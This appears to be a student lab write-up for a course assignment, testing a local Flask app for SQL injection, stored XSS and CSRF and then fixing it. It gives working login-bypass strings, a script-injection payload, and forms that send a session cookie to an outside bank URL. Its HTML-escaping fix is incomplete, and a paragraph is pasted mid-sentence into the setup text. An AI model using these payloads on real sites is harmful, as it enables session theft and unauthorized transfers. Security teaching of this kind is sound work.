










# Machine Problem 3

_By:_ \
_Diez, Reca Jane_ \
_Gonzales, Kyle Angelo_ \
_Pulvera, Eusib Vincent_

---

This sample application requires Python, sqlite3, and Flask.

### Initial setup

Setup a Python virtual environment to install Flask in a contained project.

```
$ python -m venv virtualenv
```

This should create a virtual environment in a folder named `virtualenv`.
Activate this environment with:

```
$ source ./virtualenv/bin/activate
(virtualenv) $
```

Typically, a change in the prompt like seen above indicates the virtual environment activation was successful.

(On Windows, consult the `Activate.ps1` script in `./virtualenv/bin/`.)

Install the rest of the requirements with:

```
(virtualenv) $ pip install -r requirements.txt
```

### Running

Run the web application with:

```
$ flask run
```

This should run the application on port `5000`.

Open a web browser to `http://localhost:5000` and the application should be there.

### Database

The database contains three tables: `users`, `sessions`, and `posts`.

The attacks we've encountered highlight the risks associated with injecting HTML into webpages, leaving them susceptible to XSS and CSRF attacks.

To safeguard webpages against these vulnerabilities, one effective measure is to sanitize user inputs by escaping HTML characters using their respective encodings.

When we retry the XSS attack described earlier, the input is no longer interpreted as an HTML element. Instead, it's treated as a regular string, as evident from the visible post below:The `users` table contains `username`s and `password`s.

`sessions` contains a mapping between `users` and a generated session token.

`posts` contains posts that users see on their homepage.

The database should have a single user preloaded: `alice` with password `12345678`.

---

In this Machine Problem, we are penetration testers. We aim to assess the security of this web application by simulating attacks to identify vulnerabilities and weaknesses. Then, after we gain insights from the attacks, we are able to provide solutions to secure the web application from real malicious actors.

### Attack

#### SQL Injection

Upon initial inspection of the website, we encountered a rather ugly login page (no offense, sir). Given its lackluster appearance, it seemed plausible that the developers might have taken a lazy approach to constructing SQL queries, potentially concatenating strings in a haphazard manner and leaving the door wide open for SQL injection attacks.

A potential attacker would not know login details of the users. But we can bypass the login page with an SQL injection attack.

We first tried setting:

username: `alice' OR 1=1; SELECT username FROM users WHERE username = 'alice`

password: `garbage`

Let's breakdown the input:

- `alice'` - is just a placeholder. The username may or may not be in the database. Note how we add a `'` at the end in order to close the string in the SQL query.
- `OR 1=1;` - is logic that always returns true. Remember, if the query returns more than 0 rows, the server registers a successful login. Note that the `;` ends the SQL query, allowing us to add another query.
- `SELECT username FROM users WHERE username = 'alice` - is just a dummy SQL query that matches the previous query. It doesn't have to return anything. Note how we didn't add a closing `'` because the intended SQL query will automatically add a closing quote at the end of our input.
- `garbage` - is a garbage input to the intended query so that it doesn’t return anything.

This would make final SQL query:

```
SELECT username FROM users WHERE username = 'alice' OR 1=1; SELECT username FROM users WHERE username = 'alice' AND password = 'garbage'
```

When we attempted to submit the login request, we encountered a `500` response code, suggesting a potential error within the application code and hinting that our SQL injection attempt might have failed.

Although it may seem that peeking at the server logs was a bit sneaky, it did shed light on an error:

```
[2024-04-30 10:08:16,379] ERROR in app: Exception on /login [POST]
sqlite3.ProgrammingError: You can only execute one statement at a time.
127.0.0.1 - - [30/Apr/2024 10:08:16] "POST /login HTTP/1.1" 500 -
```

This indicates a limitation in Flask's sqlite3 library, restricting the execution of multiple SQL queries simultaneously. It underscores the importance of leveraging established libraries or frameworks during web development, as they are designed with security considerations in mind, thereby mitigating the risk of security vulnerabilities.

However, this did not stop us! We attempted another SQL injection attack:

username: `alice' OR 1=1--`

password: _blank_

We still aim to return more than 0 rows with logic that is always true (`OR 1=1`). But instead of appending another query, we add `--` which comments out all succeeding parts of the query. Thus, we no longer need to fill out the password section. Our final query is:

```
SELECT username FROM users WHERE username = 'alice' OR 1=1
```

When we submit the login request, we were able to successfully login and we are directed to the `home` route as shown below.



We have found a vulnerability to SQL injection.

#### XSS Attack

After the successful SQL injection attack, we now have access to the user's posts. These posts are stored in the database and they are also displayed on the webpage after they are posted. This signals a possibile vulnerability to a Cross-Site Scripting (XSS) attack.

We attempt to inject the following JavaScript into the website via the post input:

```
<script>alert("this is an XSS attack!!!");</script>
```

After submitting the request, we're redirected to the home route, where all user posts are rendered in HTML. The malicious post is also parsed as an actual `<script>` tag. The JavaScript within the `<script>` tag executes immediately when the webpage loads, confirming the success of the XSS attack, as shown below:



Additionally, the malicious post appears as an empty bullet point, indicating that it's treated as a script rather than standard HTML elements, as evident from the screenshots provided.




We can categorize this XSS attack as a stored XSS attack because the malicious JavaScript is stored as a post in the database. Consequently, when the post is loaded, the embedded JavaScript within the rendered HTML is executed.

#### CSRF Attack

From the XSS attack, we learned that we can inject HTML into the webpage - particularly a `script` tag containing malicious JavaScript. With this vulnerability in mind, we can also inject other HTML into the application to perform actions on the web application. Since, we were able to login via the SQL injection attack, we are already authenticated and have a valid session token. Thus, our malicious HTML can leverage the session token which is automatically included in any requests sent (since it is stored in a cookie) to the site. This could mean that this web application is vulnerable to a Cross-Site Request Forgery (CSRF) attack.

Consider the following HTML:

```html

```

We can inject this HTML as a user post. When the `/home` route is reloaded, the `img` tag within the post triggers an immediate execution of the `/logout` route. This action, performed automatically upon page load, effectively logs out the user by deleting the session token from both the server and the client. While the user isn't automatically redirected to the `/login` page (requiring a page refresh), they're unable to send further requests due to the absence of a valid session token. Any subsequent attempts, such as uploading another post, result in a `500` response code. This CSRF attack serves as a disruptive Denial of Service (DOS) tactic.

A CSRF attack (combined with an XSS attack) can also be used with POST requests. Consider the following HTML:

```html
<form action="https://bangko.com.ph/transfer" name="evilform">
  <input name="amount" value="10000" />
  <input name="recipient" value="177013" />
</form>
<script>
  document.evilform.submit();
  console.log(document.cookie);
</script>
```

When the `home` route is reloaded, the POST request is immediately sent, automatically attaching the session token for `httpsL//bangko.com.ph`.

We can explicitly access the session token by injecting this code:

```html
<form action="https://bangko.com.ph/transfer" name="evilform">
  <input name="amount" value="10000" />
  <input name="recipient" value="177013" />
  <input name="session_token" id="token" value="" />
</form>
<script>
  const token = document.getElementById("token");
  token.value = document.cookie;
  console.log(document.cookie);
  document.evilform.submit();
</script>
```

This injects a form into the webpage, as shown below:


When the website is reloaded, we are redirected to the URL:

```
https://bangko.com.ph/transfer?amount=10000&recipient=177013&session_token=session_token%3D61b04f25e5d8f11097cd2ec3c4978e112f2c11dbdfa0921be0cb9bbae39e432f
```

We have successfully identified a vulnerability to CSRF attacks.

### Defense

Through the simulated attacks, we've gained comprehensive insights into the vulnerabilities present in this web application. Armed with this understanding, we can proceed to implement crucial changes to fortify the application against these identified vulnerabilities.

#### Parameterized SQL Queries

The most straightforward vulnerability to address was the SQL queries formed through string concatenation, rendering them susceptible to SQL injection.

This vulnerability can be remedied by employing parameterized SQL queries, wherein the query template is compiled first (without user input), and then user input is inserted after it is sanitized by the SQL engine. This prevents user input from being interpreted as part of the SQL code, thereby protecting against SQL injection attacks. Within Flask's sqlite3 library, implementing parameterized SQL queries is straightforward, thanks to its built-in APIs.

For example, the original query:

```python
query = f"SELECT id from users
    WHERE username = '{request.form["username"]}'
    AND password = '{request.form["password"]}'"
response = cur.execute(query)
```

can be modified to the parameterized query:

```python
query = "SELECT id from users
    WHERE username = ? AND password = ?;"
response = cur.execute(query, (request.form["username"], request.form["password"]))

```

This simple adjustment effectively mitigates the vast majority of vulnerabilities related to SQL injection. It emphasizes the critical importance of leveraging existing libraries and reading documentation when developing web applications. Although it may not be difficult to sanitize the SQL parameters ourselves, we would just end up building a crappier version of an existing SQL engine, which has optimizations and more comprehensive security considerations.

With the changes, we re-attempt the SQL injection attack and we obtain the following output:



The input parameters are no longer mistaken as part of the SQL query. Because there is no user in the database with the username: `alice' OR 1=1--`, an _Invalid username_ response is returned.

#### Sanitizing User Inputs

The attacks we've encountered highlight the risks associated with injecting HTML into webpages, leaving them susceptible to XSS and CSRF attacks. Just as we guard against user input being mistaken for SQL code, we also aim to prevent it from being misinterpreted as malicious HTML code.

On the client-side, one way to prevent such XSS attacks and CSRF attacks is to sanitize user inputs by escaping HTML characters using their respective encodings.

```python
def clean_input(text):
    if not isinstance(text, str):
        return text
    return text.replace("<", "&lt;").replace(">", "&gt;")

@app.route("/login")
def posts():
  #...
  message = clean_input(request.form["message"])
  #...

```

When we retry the XSS attack described earlier, the input is no longer interpreted as an HTML element. Instead, it's treated as a regular string, as evident from the visible post below:



When we look at the post from the database, we can really see that the string replaced the "<" and ">" characters with their respective HTML entities, as shown below:



Similarly, when attempting the CSRF attack described earlier, the post is no longer treated as HTML code:



The XSS and CSRF attacks we've discussed here are relatively straightforward and the fix that we introduced in this discussion is a good place to start. Additionally, more comprehensive form validation logic can be implemented to add additional layers of protection - and, we ought to rely on existing libraries for this. However, preventing more serious XSS attacks on the client-side is challenging, as attackers have numerous creative methods to bypass defenses and exploit vulnerable users. Thus, adopting a defense-in-depth approach and implementing additional client-side and server-side defenses are crucial steps in mitigating such attacks effectively.

### Conclusion

In our exploration as penetration testers, we've unveiled critical vulnerabilities within the web application, exposing it to SQL injection, XSS, and CSRF attacks. Through our hands-on exploration and deliberate attempts to break the system, we unearthed critical vulnerabilities that could compromise the integrity and confidentiality of the application.

Addressing these vulnerabilities required a multifaceted approach. Utilizing parameterized SQL queries, we fortified the application against SQL injection, ensuring that user input is safeguarded from malicious manipulation. Additionally, by sanitizing user inputs and escaping HTML characters, we mitigated the risk of XSS and CSRF attacks, enhancing the resilience of the system against exploitation.

One of our key learnings is the undeniable truth that breaking things is the most effective way to uncover vulnerabilities. By simulating attacks and exploiting weaknesses, we gained profound insights into the system's security posture, enabling us to identify and address potential risks.

Cybersecurity demands a high degree of creative thinking and adaptability. To effectively defend against the ingenuity of malicious actors, we must match their cunning with innovative security measures. Our experience highlights the importance of adopting a proactive mindset and continuously evolving our defensive strategies to stay ahead of emerging threats.

Furthermore, our journey has emphasized the significance of leveraging existing libraries and frameworks in web development. Utilizing established tools not only streamlines the development process but also ensures that security best practices are integrated into the application from the outset. By relying on tried-and-tested solutions, we can mitigate common vulnerabilities and focus our efforts on addressing unique challenges.

While our efforts have significantly bolstered the security posture of the application, we recognize that the threat landscape is constantly evolving. As attackers employ increasingly sophisticated tactics, the need for vigilance and continuous improvement remains paramount. Adopting a defense-in-depth strategy and implementing robust client-side and server-side defenses are pivotal in fortifying the application's resilience against emerging threats.

By leveraging our insights from simulated attacks and diligently implementing security measures, we stand better equipped to defend against real-world malicious actors, safeguarding the integrity and trustworthiness of the web application.
